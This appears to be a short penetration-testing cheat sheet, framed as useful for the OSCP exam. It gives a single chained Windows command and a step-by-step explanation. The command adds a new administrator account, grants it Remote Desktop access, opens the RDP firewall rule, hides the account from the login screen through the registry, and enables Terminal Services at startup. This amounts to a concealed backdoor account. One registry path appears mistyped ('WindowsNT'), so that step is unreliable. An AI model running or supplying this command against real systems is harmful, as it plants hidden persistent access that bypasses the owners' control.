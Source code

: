 # Enable RDP in one line CMD

This is very helpful during OSCP.

## CMD

net user /add <<Username>> <<Password>> && net localgroup administrators <<Username>> /add & net localgroup "Remote Desktop Users" <<Username>> /add & netsh advfirewall firewall set rule group="remote desktop" new enable=Yes & reg add HKEY_LOCAL_MACHINE\Software\Microsoft\WindowsNT\CurrentVersion\Winlogon\SpecialAccounts\UserList /v <<Username>> /t REG_DWORD /d 0 & reg add "HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Control\Terminal Server" /v TSEnabled /t REG_DWORD /d 1 /f & sc config TermService start= auto

### Explain

Adding User: net user /add <<Username>> <<Password>>
Adding User in Administrator Group: net localgroup administrators <<Username>> /add
Adding user in Remote Desktop Users: net localgroup "Remote Desktop Users" <<Username>> /add
Opening Port in Local Firewall: netsh advfirewall firewall set rule group="remote desktop" new enable=Yes
Hiding User from Window Login Screen: reg add HKEY_LOCAL_MACHINE\Software\Microsoft\WindowsNT\CurrentVersion\Winlogon\SpecialAccounts\UserList /v <<Username>> /t REG_DWORD /d 0 
Setting Terminal Service in Startup Mode: reg add "HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Control\Terminal Server" /v TSEnabled /t REG_DWORD /d 1 /f
Setting Terminal Service in Auto Mode: sc config TermService start= auto 
